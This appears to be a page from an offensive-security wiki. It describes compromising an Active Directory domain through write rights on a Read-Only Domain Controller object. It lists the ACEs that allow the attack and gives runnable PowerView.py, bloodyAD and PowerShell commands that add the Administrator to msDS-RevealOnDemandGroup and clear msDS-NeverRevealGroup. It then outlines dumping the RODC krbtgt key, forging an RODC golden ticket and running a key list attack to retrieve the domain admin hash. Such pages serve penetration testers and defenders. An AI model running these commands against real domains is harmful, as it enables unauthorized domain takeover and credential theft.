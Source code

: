 # Rights on RODC object

With administrative control over the [RODC](../domain-settings/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

{% hint style="info" %}
For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:

* `GenericWrite`
* `GenericAll` / `FullControl`
* `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
* `Owns` (c.f. `WriteDacl`)
* `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
* `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.

<pre class="language-bash"><code class="lang-bash"><strong>powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
</strong>
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
<strong>PV > Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
</strong><strong>PV > Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'
</strong>
#If needed, remove the admin from the msDS-NeverRevealGroup attribute
<strong>PV > Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup
</strong></code></pre>

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Get original msDS-RevealOnDemandGroup values 
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object 'RODC-server$' --attr msDS-RevealOnDemandGroup
distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local

# Add the previous value plus the admin account
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-NeverRevealGroup
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06" %}
